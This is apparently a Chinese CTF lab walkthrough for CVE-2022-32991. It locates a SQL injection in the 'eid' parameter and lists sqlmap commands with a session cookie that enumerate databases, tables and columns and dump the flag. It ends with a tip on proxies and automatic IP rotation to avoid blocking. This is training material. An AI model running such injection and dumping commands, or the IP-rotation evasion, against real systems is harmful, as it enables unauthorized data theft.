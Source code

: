 ### 春秋云镜（CVE-2022-32991）靶场操作流程

1. #### 进入靶场并注册登录

   进入靶场后，能看到登录和注册按钮。

   ![image-20250425204004014](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204004014.png)

   点击注册按钮，填写用户名（如 123）、邮箱（如 123@123.com ）、密码、学院名称（如 123）后完成注册，接着进行登录操作。

   ![image-20250425204035334](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204035334.png)

   ![image-20250425204110884](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204110884.png)

2. #### 寻找注入点

   登录成功后，点击首页第一个 “Start” 按钮，此时首页出现 PHP 报错，可忽略。

   ![image-20250425204124799](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204124799.png)

   ![image-20250425204142257](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204142257.png)

   发现页面存在 GET 传参，尝试后确定参数 “eid” 存在注入点。例如访问：http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694%27&n=18t=34发现页面出现报错提示。

   ![image-20250425204200188](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204200188.png)

3. #### 使用 sqlmap 进行注入检测

   由于之前进行了登录操作，需获取 Cookie。

   ![image-20250425204217300](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204217300.png)

   使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid"检测参数 “eid” 是否存在注入。

   通过回显得知 “eid” 包含布尔注入、报错注入、时间盲注以及联合注入四种注入方式，且后端数据库管理系统为 MySQL。

   ![image-20250425204238880](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204238880.png)

4. #### 获取数据库、表、字段及内容

   **获取数据库**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" --dbs，成功获取四个数据库。
   
   ![image-20250425204253211](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204253211.png)
   
   **获取指定数据库中的表**：选择 “ctf” 数据库，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" --tables，获取到 “ctf” 数据库中的 “flag” 表等 9 张表。
   
   ![image-20250425204300983](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204300983.png)
   
   **获取指定表中的字段**：针对 “flag” 表，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" --columns，发现 “flag” 表中有一个名为 “flag” 的字段。
   
   ![image-20250425204308738](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204308738.png)
   
   **获取指定字段的内容**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" -C "flag" --dump，成功获得 “flag” 字段中的内容，即得到 flag。
   
   ![image-20250425204314719](C:\Users\wjh20\AppData\Roaming\Typora\typora-user-images\image-20250425204314719.png)



##### 注意：

作者在攻击靶场的适合使用了代理，同时开启了IP自动切换。如果有人的sqlmap无法正常链接的时候可以参考作者的做法。